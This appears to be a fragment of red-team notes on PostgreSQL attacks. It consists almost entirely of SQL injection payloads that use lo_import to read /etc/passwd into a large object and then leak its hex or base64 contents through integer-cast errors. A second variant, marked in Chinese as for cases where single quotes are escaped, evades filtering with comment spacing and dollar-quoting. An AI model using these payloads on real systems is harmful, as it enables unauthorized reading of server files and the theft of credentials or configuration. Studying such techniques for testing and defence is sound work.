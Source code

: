 ```sql
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a

-- 单引号被转义的情况下使用
select/**/lo_import($$/etc/passwd$$,11111);
select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/9.png)
